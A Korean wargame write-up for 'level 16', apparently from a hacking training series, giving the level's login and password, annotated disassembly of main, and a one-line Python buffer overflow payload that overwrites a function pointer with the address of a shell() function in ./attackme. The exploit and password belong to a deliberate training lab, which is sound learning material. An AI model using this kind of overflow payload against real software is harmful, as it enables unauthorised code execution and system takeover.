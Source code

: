 # level 16

* id : `level16`
* pw : `about to cause mass`

![](./img/2021-11-10-14-51-28.png)

이번엔 함수가 여러개 겹쳐있다.

```python
# main
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38                     # 할당받은 버퍼 크기 (0x38 == 56)
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500 # printit() 함수 주소 0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]                 # buf 주소 [ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]       # call 함수 위치 [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
```

음.. 어셈을 읽어보니 `call`, 즉 `printit()` 함수에 해당하는게 `[ebp-16]` 에 있다.

아무래도 `shell()` 함수의 주소를 찾아서 `[ebp-16]`에 덮어씌우면 될듯 하다.

![](./img/2021-11-10-14-55-09.png)

shell 의 주소는 0x080484d0 임을 확인했다.

익스를 짜보자.

```
(python -c "print 'A'*40 + '\xd0\x84\x04\x08'" ; cat) | ./attackme
```

![](./img/2021-11-10-14-56-32.png)

GG!